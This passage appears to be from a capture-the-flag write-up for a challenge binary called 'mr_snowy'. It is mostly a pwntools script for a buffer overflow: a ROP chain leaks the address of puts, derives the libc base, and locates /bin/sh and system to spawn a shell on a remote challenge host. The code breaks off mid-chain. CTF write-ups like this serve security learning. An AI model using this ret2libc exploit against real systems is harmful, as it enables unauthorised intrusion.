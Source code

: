 We, need to download the libc version, and then put it in the same folder with the mr_snowy solver python file.

After that, we could call it into the python file and use the libc to find the `/bin/sh` and `system`.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
	pop_rdi,
	puts_got,
	puts_plt,
	main_plt
]

rop = b"".join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to run the libc leak address
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")

libc = ELF("libc6_2.27-3ubuntu1.4_amd64.so")
libc.address = leakPuts - libc.symbols["puts"]
log.info(f"libc base address found at {hex(libc.address)}")

# next wrapper used to get the first occurence of /bin/sh
bin_sh = next(libc.search(b'/bin/sh'))

# system used to call the next address on the stack
# so we could write the address of /bin/sh before system
system = libc.symbols['system']

# exit used to make the program end safely and not in the harsh way
exit = libc.symbols['exit']

rop = [
	ret,
```

[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  